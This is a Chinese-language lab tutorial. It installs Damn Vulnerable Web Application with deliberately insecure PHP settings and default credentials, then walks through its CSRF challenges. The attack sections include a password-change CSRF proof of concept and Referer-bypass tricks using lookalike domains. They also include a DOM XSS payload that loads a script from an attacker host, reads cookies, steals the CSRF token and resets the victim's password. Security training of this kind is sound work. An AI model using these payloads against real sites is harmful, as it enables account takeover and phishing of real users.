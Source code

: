 Damn Vulnerable Web Application (DVWA).

## 1. Install

安装依赖

```
┌──(sec@debian)-[~]
└─$ sudo apt install -y apache2 mariadb-server mariadb-client php php-mysqli php-gd libapache2-mod-php composer
```

Enable `mod_rewrite` 

```
┌──(sec@debian)-[~]
└─$ sudo a2enmod rewrite && sudo systemctl restart apache2.service
```

Clone

```
┌──(sec@debian)-[~]
└─$ sudo -E git clone https://github.com/digininja/DVWA.git /var/www/html/dvwa
```

Install API module

```
┌──(sec@debian)-[~]
└─$ sudo composer install -d /var/www/html/dvwa/vulnerabilities/api
```

## 2. Init

Folder Permissions

```
┌──(sec@debian)-[~]
└─$ sudo chown -R www-data:www-data /var/www/html/dvwa/hackable/uploads /var/www/html/dvwa/config \
&& sudo chmod -R 775 /var/www/html/dvwa/hackable/uploads /var/www/html/dvwa/config
```

PHP Configuration

```
┌──(sec@debian)-[~]
└─$ sudo nano -l /etc/php/8.2/apache2/php.ini && sudo systemctl restart apache2.service
```

```
508 display_errors = On
517 display_startup_errors = On
866 allow_url_fopen = On
870 allow_url_include = On
```

释放 Configuration File

```
┌──(sec@debian)-[~]
└─$ sudo cp /var/www/html/dvwa/config/config.inc.php.dist /var/www/html/dvwa/config/config.inc.php
```

Configure

```
┌──(sec@debian)-[~]
└─$ sudo nano -l /var/www/html/dvwa/config/config.inc.php
```

```php
20 $_DVWA[ 'db_user' ]     = getenv('DB_USER') ?: 'root';
21 $_DVWA[ 'db_password' ] = getenv('DB_PASSWORD') ?: '123456';
27 $_DVWA[ 'recaptcha_public_key' ]  = '6LeIxAcTAAAAAJcZVRqyHh71UMIEGNQ_MXjiZKhI';
28 $_DVWA[ 'recaptcha_private_key' ] = '6LeIxAcTAAAAAGG-vFI1TnRWxMZNFuojJ4WifJWe';
33 $_DVWA[ 'default_security_level' ] = getenv('DEFAULT_SECURITY_LEVEL') ?: 'low';
```

Click `Create / Reset Database` 

> http://127.0.0.1:60080/dvwa/setup.php

## 3. Usage

登录 `admin:password` 

> http://127.0.0.1:60080/dvwa/login.php

修改安全级别

![修改安全级别](./../../../../../images/DVWA/%E4%BD%BF%E7%94%A8/%E4%BF%AE%E6%94%B9%E5%AE%89%E5%85%A8%E7%BA%A7%E5%88%AB.png)

### 3.1. csrf

> http://127.0.0.1:60080/dvwa/vulnerabilities/csrf/

> 1. 攻击者首先会在自己的个人账户上获取敏感操作的请求包，如：修改密码，修改邮箱，修改手机号，账号删除，转账等操作
> 2. 之后会利用这些请求包构造一个网页形式的 poc，将这个 poc 发送到公网
> 3. 最后诱使目标账号在登录状态下点击 poc 链接，即可伪造用户请求进行敏感操作

### 3.1.1. low

```
目标账户：admin:password
个人账户：gordonb:abc123
```

登录个人账户拦截请求包，并提交修改密码请求

![登录个人账户拦截请求包，并提交修改密码请求](./../../../../../images/DVWA/%E4%BD%BF%E7%94%A8/csrf/low/%E7%99%BB%E5%BD%95%E4%B8%AA%E4%BA%BA%E8%B4%A6%E6%88%B7%E6%8B%A6%E6%88%AA%E8%AF%B7%E6%B1%82%E5%8C%85%EF%BC%8C%E5%B9%B6%E6%8F%90%E4%BA%A4%E4%BF%AE%E6%94%B9%E5%AF%86%E7%A0%81%E8%AF%B7%E6%B1%82.png)

构造 poc

![构造 poc](./../../../../../images/DVWA/%E4%BD%BF%E7%94%A8/csrf/low/%E6%9E%84%E9%80%A0%20poc.png)

将 poc 放在网站上

```shell
┌──(root㉿purple)-[~]
└─# systemctl start apache2 && vim /var/www/html/test.html
```

诱使目标账户在登录状态下访问 poc 链接即可修改目标账户密码修改

> http://kali.local/test.html

> 布置在公网上时可以购买短链接或相似域名伪造官网

### 3.1.2. medium

> 1. 这里使用了 Referer 校验用户请求是否来自官网。
> 2. 假设官网为 `purple.local` ，当用户在这个网站进行操作时校验了服务端当前所在网站为官网，因此是正常请求，不会拦截。
> 3. 但是当目标被诱导使用攻击者伪造的网站 `kali.local` 操作时，服务端会校验当前的网站是否是 `purple.local` ，因此会对 `kali.local` 的请求进行拦截。

绕过方式有两种

1. 域名绕过：伪造网站可申请一个相似域名如 `test.purple.local` 或 `purple.local.cn` 等即可绕过

2. 网址绕过：在伪造网站构造一个含有校验对象的路径，如 `http://kali.local/purple.local.html` 即可绕过

指定 Referer 策略： `no-referrer-when-downgrade` 或 `unsafe-url` 

>  `no-referrer-when-downgrade` 只有当从 HTTPS 降级为 HTTP 时不会发送完整 URL
>
>  `unsafe-url` 永远发送完整 URL
>
> 完整的 URL ：`http://kali.local/purple.local.html` 
>
> 不完整的 URL ：`http://kali.local` 

在一个含有校验对象的路径中构造 POC

```shell
┌──(root㉿purple)-[~]
└─# vim /var/www/html/purple.local.html
```

```html
<!DOCTYPE html>
<html>
<head>
    <meta name="referrer" content="unsafe-url">
    <meta http-equiv="Content-Type" content="text/html; charset=UTF-8">
    <meta name="referrer" content="unsafe-url">
</head>
<body>
    <a href="http://127.0.0.1:60080/dvwa/vulnerabilities/csrf/?password_new=123456&password_conf=123456&Change=Change" referrer="unsafe-url">
        csrf
    </a>
</body>
</html>
```

### 3.1.3. high

需要利用 xss(dom) 漏洞获取 token 

> 可以利用 # 注释，# 之后的代码不会发送到服务器，但是可以在本地加载

```
http://centos7-6.local/dvwa/vulnerabilities/xss_d/?default=English#%3Cscript%3Ealert(%22hello%22)%3C/script%3E
```

成功注入

![成功注入](./../../../../../images/DVWA/%E4%BD%BF%E7%94%A8/csrf/high/%E6%88%90%E5%8A%9F%E6%B3%A8%E5%85%A5.png)

构造一个 js 文件，通过 xss 漏洞执行这个文件，获取 token 来进行 csrf 攻击

```shell
┌──(root㉿kali)-[~]
└─# vim /var/www/html/csrf.js
```

```js
//弹出cookie
alert(document.cookie);
//定义AJAX加载的页面
	var theUrl = 'http://centos7-6.local/dvwa/vulnerabilities/csrf/';
//匹配浏览器
if (window.XMLHttpRequest){
// IE7+, Firefox, Chrome, Opera, Safari
		xmlhttp=new XMLHttpRequest(); 
	}else{
// IE6, IE5
		xmlhttp=new ActiveXObject("Microsoft.XMLHTTP"); 
	}
	var count = 0;
//页面加载完成后执行函数
	xmlhttp.onreadystatechange=function(){
//判断请求已完成并且响应就绪状态码为200时执行代码
	if (xmlhttp.readyState==4 && xmlhttp.status==200)
	{
//页面内容存储到text中进行匹配token
		var text = xmlhttp.responseText;
		var regex = /user_token\' value\=\'(.*?)\' \/\>/;
		var match = text.match(regex);
		console.log(match);
//弹出token
		alert(match[1]);
		var token = match[1];
//定义payload url并绑定token为我们从页面匹配到的token并且定义新的密码，新密码是admin
var new_url = 'http://centos7-6.local/dvwa/vulnerabilities/csrf/?user_token='+token+'&password_new=123456&password_conf=123456&Change=Change'
//GET方式提交一次new_url
		if(count==0){
			count++;
			xmlhttp.open("GET",new_url,false);
			xmlhttp.send();
		}
}
};
//GET方式提交theUrl
	xmlhttp.open("GET",theUrl,false);
	xmlhttp.send();

```

通过 xss 漏洞加载 js 文件进行 csrf 攻击来修改密码

```
http://centos7-6.local/dvwa/vulnerabilities/xss_d/?default=English#<script src="http://kali.local/csrf.js"></script>
```

> 可将这个 url 放到伪造页面中

---

References

- [dvwa](https://github.com/digininja/DVWA)

